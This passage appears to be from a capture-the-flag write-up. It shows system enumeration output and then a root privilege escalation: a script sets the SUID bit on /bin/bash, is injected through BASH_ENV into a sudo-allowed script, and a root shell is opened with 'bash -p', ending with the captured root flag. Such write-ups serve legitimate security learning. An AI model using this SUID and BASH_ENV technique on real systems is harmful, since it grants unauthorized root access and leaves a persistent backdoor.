udev         on  /dev                                                 type  devtmpfs     (rw,nosuid,relatime,size=1980748k,nr_inodes=495187,mode=755,inode64)
devpts       on  /dev/pts                                             type  devpts       (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs        on  /run                                                 type  tmpfs        (rw,nosuid,nodev,noexec,relatime,size=400920k,mode=755,inode64)
/dev/sda1    on  /                                                    type  ext4         (rw,relatime,errors=remount-ro)
securityfs   on  /sys/kernel/security                                 type  securityfs   (rw,nosuid,nodev,noexec,relatime)
tmpfs        on  /dev/shm                                             type  tmpfs        (rw,nosuid,nodev,inode64)
tmpfs        on  /run/lock                                            type  tmpfs        (rw,nosuid,nodev,noexec,relatime,size=5120k,inode64)
cgroup2      on  /sys/fs/cgroup                                       type  cgroup2      (rw,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot)
pstore       on  /sys/fs/pstore                                       type  pstore       (rw,nosuid,nodev,noexec,relatime)
bpf          on  /sys/fs/bpf                                          type  bpf          (rw,nosuid,nodev,noexec,relatime,mode=700)
systemd-1    on  /proc/sys/fs/binfmt_misc                             type  autofs       (rw,relatime,fd=30,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=13564)
hugetlbfs    on  /dev/hugepages                                       type  hugetlbfs    (rw,relatime,pagesize=2M)
tracefs      on  /sys/kernel/tracing                                  type  tracefs      (rw,nosuid,nodev,noexec,relatime)
mqueue       on  /dev/mqueue                                          type  mqueue       (rw,nosuid,nodev,noexec,relatime)
debugfs      on  /sys/kernel/debug                                    type  debugfs      (rw,nosuid,nodev,noexec,relatime)
fusectl      on  /sys/fs/fuse/connections                             type  fusectl      (rw,nosuid,nodev,noexec,relatime)
ramfs        on  /run/credentials/systemd-sysctl.service              type  ramfs        (ro,nosuid,nodev,noexec,relatime,mode=700)
configfs     on  /sys/kernel/config                                   type  configfs     (rw,nosuid,nodev,noexec,relatime)
ramfs        on  /run/credentials/systemd-sysusers.service            type  ramfs        (ro,nosuid,nodev,noexec,relatime,mode=700)
ramfs        on  /run/credentials/systemd-tmpfiles-setup-dev.service  type  ramfs        (ro,nosuid,nodev,noexec,relatime,mode=700)
ramfs        on  /run/credentials/systemd-tmpfiles-setup.service      type  ramfs        (ro,nosuid,nodev,noexec,relatime,mode=700)
binfmt_misc  on  /proc/sys/fs/binfmt_misc                             type  binfmt_misc  (rw,nosuid,nodev,noexec,relatime)
tmpfs        on  /run/user/1000                                       type  tmpfs        (rw,nosuid,nodev,relatime,size=400916k,nr_inodes=100229,mode=700,uid=1000,gid=1000,inode64)

### Checking system resource limits ###
real-time non-blocking time  (microseconds, -R) unlimited
core file size              (blocks, -c) 0
data seg size               (kbytes, -d) unlimited
scheduling priority                 (-e) 0
file size                   (blocks, -f) unlimited
pending signals                     (-i) 15474
max locked memory           (kbytes, -l) 501144
max memory size             (kbytes, -m) unlimited
open files                          (-n) 1024
pipe size                (512 bytes, -p) 8
POSIX message queues         (bytes, -q) 819200
real-time priority                  (-r) 0
stack size                  (kbytes, -s) 8192
cpu time                   (seconds, -t) unlimited
max user processes                  (-u) 15474
virtual memory              (kbytes, -v) unlimited
file locks                          (-x) unlimited

### Displaying loaded kernel modules ###
Module                  Size  Used by
tcp_diag               16384  0
inet_diag              24576  1 tcp_diag
binfmt_misc            28672  1
intel_rapl_msr         20480  0
intel_rapl_common      32768  1 intel_rapl_msr
ghash_clmulni_intel    16384  0
sha512_ssse3           49152  0
sha512_generic         16384  1 sha512_ssse3
vsock_loopback         16384  0

### Checking disk usage for all filesystems ###
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           392M  688K  391M   1% /run
/dev/sda1       3.8G  1.7G  2.0G  46% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           392M     0  392M   0% /run/user/1000
```

## Privilege Escalation to root

Since we knew we were able to `modify` the `environment variables` and we could use `BASH_ENV` before executing the `/usr/bin/systeminfo` script, we created a `malicious script` using `shebang` and `chmod u+s` on `/bin/bash` to set the `SUID` to get access as `root`.

```shell
hish@environment:~$ cat privesc 
#!/bin/bash
chmod u+s /bin/bash
```

First we changed the `permission` for our `script` to get it executed by everyone.

```shell
hish@environment:~$ chmod 777 privesc
```

Then we pointed to it using the `BASH_ENV` variable and executed `/usr/bin/systeminfo` using `sudo`.

```shell
hish@environment:~$ sudo BASH_ENV=privesc /usr/bin/systeminfo
<--- CUT FOR BREVITY --->
```

```shell
hish@environment:~$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.3M Mar 30  2024 /bin/bash
```

```shell
hish@environment:~$ /bin/bash -p
bash-5.2#
```

## root.txt

```shell
bash-5.2# cat /root/root.txt
a5d7ceb739bb2524326b585863978ced
```
